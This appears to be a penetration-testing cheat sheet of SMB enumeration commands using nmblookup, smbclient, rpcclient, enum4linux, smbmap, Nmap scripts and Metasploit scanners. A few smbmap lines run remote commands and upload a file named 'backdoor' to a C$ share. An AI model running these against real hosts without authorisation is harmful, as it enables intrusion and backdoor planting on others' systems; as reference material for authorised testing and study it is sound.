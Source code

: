 
### nmblookup
```bash
nmblookup -A IP
nmblookup -A $IP
nmblookup -L $IP -N 
```

### smbclient
```bash
smbclient -L IP -N
smbclient -L IP -U USERNAME 
smbclient //IP/anonymous -N
smbclient -L //IP -U anonymous
```
> Anonymous connection is allowed since **shares are displayed without requirement of password.**

### rpcclient
```bash
rpcclient -U "" -N IP
```

### enum4linux
```bash
enum4linux -o $IP
enum4linux -o $IP
enum4linux -G $IP   //groups
enum4linux -S $IP   //shares
enum4linux -r -u "USERNAME" -p "PASSWORD" $IP 
```

### smbmap
```bash
smbmap -H IP -u USERNAME -p PASS
smbmap -u USERNAME -p "" -d . -H $IP
smbmap -H $IP -u USERNAME -p "PASSWORD" -x 'ipconfig'
smbmap -H $IP -u USERNAME -p "PASSWORD" -r 'C$'
smbmap -H $IP -u USERNAME -p "PASSWORD" -L

smbmap -H $IP -u USERNAME -p "PASSWORD" --upload 'file_location/backdoor' 'C$\backdoor'
smbmap -H $IP -u USERNAME -p "PASSWORD" --download 'C$\FILE'
```

### Nmap

> Nmap
```bash
nmap -sV -sC -Pn -A -T4 -p21 IP
```

> Location Nmap scripts
```bash
ls -la /usr/share/nmap/scripts | grep -e "smb"
```

> Nmap Script  

**export IP=xxx**

```bash
nmap --script=smb-os-discovery -p 445 $IP
nmap -p445 --script smb-protocols $IP
nmap --script smb-enum-users.nse -p445 IP
nmap -p445 --script smb-enum-shares IP

nmap -p445 --script smb-enum-users,smb-ls --script-args smbusername=USERNAME,smbpassword=PASSWORD IP
nmap -p445 --script smb-domains --script-args smbusername=USERNAME,smbpassword=PASSWORD IP
nmap -p445 --script smb-enum-groups --script-args smbusername=USERNAME,smbpassword=PASSWORD IP
nmap -p445 --script smb-enum-services --script-args smbusername=USERNAME,smbpassword=PASSWORD IP
```

### Enumeration with Metasploit

```bash
msfconsole
search type:auxiliary name:smb

use auxiliary/scanner/smb/smb_version 
use auxiliary/scanner/smb/smb2 
use auxiliary/scanner/smb/smb_enumusers 
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/pipe_auditor
```

